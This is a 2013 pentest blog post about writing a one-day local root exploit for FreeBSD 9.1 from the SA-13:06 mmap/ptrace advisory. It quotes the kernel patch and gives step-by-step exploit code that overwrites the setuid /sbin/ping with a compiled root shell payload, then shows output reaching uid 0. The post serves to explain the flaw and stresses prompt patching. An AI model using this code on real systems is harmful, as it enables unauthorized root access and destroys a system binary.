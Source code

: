 ```yaml
---
layout: post
title: I feel lucky - or why I wrote a FreeBSD 1-day in one day
author: hugsy
tags:
- freebsd
- pentest
date: 2013-06-20 00:00 +0000
---
```


Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
 		vm_map_unlock_read(map);
 		return (KERN_PROTECTION_FAILURE);
 	}
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

 	/*
 	 * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

_Note_: I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)
```c
int fd = open("/sbin/ping", O_RDONLY);
caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);
```

2. `fork` to passe to be the mmaped address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with

```c
	if (ptrace(PT_ATTACH, pid, 0, 0) < 0) {
		perror("[-] ptrace(PT_ATTACH) failed");
		return;
	}
   [...]
   int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
	write(fd,
         "#include <stdio.h>\n"\
         "main(){ "\
         "char* s[]={\"/bin/sh\",NULL};"\
         "setuid(0);execve(s[0],s,0); }\n",
         84);
	close(fd);
	system("gcc -o ./sc ./sc.c");
```

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`
```c
   fd = open("./sc", O_RDONLY);
	while (1) {
		int a;
		int n = read(fd, &a, sizeof(int));
		if (n <= 0) break;
		ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
		i+=n;
	}
```

Done! Simply execute the target binary to get a root shell.

```bash
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 # id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privesc I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)